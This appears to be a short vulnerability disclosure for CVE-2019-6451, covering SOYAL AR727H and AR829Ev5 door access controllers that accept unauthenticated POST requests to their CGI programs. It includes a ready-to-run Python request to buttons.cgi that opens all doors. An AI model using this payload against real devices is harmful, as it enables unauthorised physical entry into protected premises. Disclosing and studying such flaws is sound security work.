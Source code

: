 # CVE-2019-6451

## Date

- Disclosure: 2019/01/16

## Affected Products

- SOYAL-AR727H
- SOYAL-AR829Ev5

## Technical Details

On thoses devices, all CGI programs allow unauthenticated POST access.

if you know the proper parameters and format, anyone can make it work

like open the door or insert new account on the device

![](https://github.com/cvereveal/CVEs/blob/master/CVE-2019-6451/pics/soyal_direct_control.png)

In the `Direct Control` tab, you can control the door directly.

replay with Burpsuite or send it by python code below

```python
import requests

response = requests.post('http://IP/buttons.cgi', data={'btn_Node': '255',
    'btnOpenAllPulse': '+Action+',
    'btn_nameDI0': 'DI0',
    'btn_nameDI1': 'DI1',
    'btn_nameDI2': 'DI2',
    'btn_nameDI3': 'DI3',
    'btn_nameDO0': 'RelayOutput0',
    'delayDO0':'0',
    'btn_nameDO1': 'DO1',
    'delayDO1': '0',
    'btn_nameDO2': 'DO2',
    'delayDO2': '0',
    'btn_nameDO3': 'DO3',
    'delayDO3': '0'})
```

***OPEN SESAME !!!***

![](https://github.com/cvereveal/CVEs/blob/master/CVE-2019-6451/pics/door_open.png)
